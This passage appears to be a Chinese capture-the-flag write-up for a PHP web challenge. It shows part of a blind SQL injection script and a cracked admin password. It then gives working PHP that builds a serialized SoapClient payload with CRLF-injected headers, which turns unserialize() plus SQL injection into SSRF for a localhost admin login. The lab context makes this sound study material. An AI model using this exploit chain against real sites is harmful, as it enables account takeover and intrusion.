 ```py
        except:
            flag+=chr(j)
            print(flag)
            break
```

跑出来密码的md5为：c991707fdf339958eded91331fb11ba0

网站解密为jaivypassword

我们知道了admin和password，我们登录看看

登录admin后，提示需要本地登录

![image-20250318204933844](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202503182049898.png)

访问/index.php?action=phpinfo，发现开启soap扩展。SoapClient类内置__call()，触发后可以发送HTTP和HTTPS请求，可用于SSRF。

[soap反序列化利用](https://www.cnblogs.com/iamstudy/articles/unserialize_in_php_inner_class.html#_label1_0)

![img](https://img2022.cnblogs.com/blog/2158663/202203/2158663-20220301233223206-933692787.jpg)

在user。php的showmess()使用了unserialize，反序列化的内容为ctf_user_signature中的mood列的数据，由于前面功能存在sql注入，导致mood可控

![image-20250318210255538](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202503182102610.png)

使用另一个浏览器开启一个新的窗口，将新的窗口的cookie及code填入对应位置

```php

<?php
$target = 'http://127.0.0.1/index.php?action=login';
$post_string = 'username=admin&password=jaivypassword&code=1194911';
$headers = array(
    'X-Forwarded-For: 127.0.0.1',
    'Cookie: PHPSESSID=124l5i5jsqsa7vuetnmikdtsp2'
    );
$b = new SoapClient(null,array('location' => $target,'user_agent'=>'wupco^^Content-Type: application/x-www-form-urlencoded^^'.join('^^',$headers).'^^Content-Length: '.(string)strlen($post_string).'^^^^'.$post_string,'uri' => "aaab"));

$aaa = serialize($b);
$aaa = str_replace('^^',"\r\n",$aaa);
echo bin2hex($aaa);
?>
```

使用原来的test用户发布签名

![image-20250318211543824](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202503182115938.png)

然后刷新刚刚使用那应该浏览器开启的新的窗口，admin登录成功

![image-20250318211616106](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202503182116151.png)
